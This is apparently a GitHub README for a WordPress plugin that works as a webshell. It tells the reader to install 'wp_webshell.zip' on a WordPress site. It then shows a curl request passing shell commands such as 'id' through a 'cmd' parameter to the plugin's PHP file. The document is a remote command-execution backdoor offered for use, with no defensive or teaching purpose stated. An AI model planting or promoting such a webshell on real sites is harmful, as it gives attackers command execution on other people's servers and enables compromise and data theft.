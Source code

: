 # Webshell Plugin Wordpress

A brief description of what this project does and who it's for

## Usage
1 - Clone this repository and install the `wp_webshell.zip` plugin on your WordPress instance.
<img width="984" height="116" alt="IMG" src="https://github.com/user-attachments/assets/4ed64787-14a4-46f7-be66-84e9c4167012" />

2 - Use the web shell from the browser or terminal.
```bash
curl http://example.com/wp-content/plugins/wp_webshell/wp_webshell.php?cmd=id
```
<img width="838" height="72" alt="IMG" src="https://github.com/user-attachments/assets/4fd9260b-b448-441c-938a-e5c6248dc9b2" />
